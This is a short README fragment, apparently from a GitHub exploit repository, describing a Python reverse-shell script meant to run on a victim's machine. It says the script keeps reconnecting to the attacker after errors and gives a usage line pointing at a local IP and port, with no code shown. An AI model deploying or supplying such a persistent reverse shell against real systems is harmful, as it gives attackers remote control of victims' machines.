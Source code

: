 ## Reverse shell victim side scripts

  
  

***[ex-rs-v-000001.py](https://github.com/IliyaBadri/Enterploit/blob/main/Exploits/Reverse-Shell/Victim/ex-rs-v-000001.py)***:
This script reconnects to the attacker even after an error. This script also tries reconnecting even if the attacker is not present.

**Usage**

    python3 rs-v-000001.py -i 127.0.0.1 -p 8888
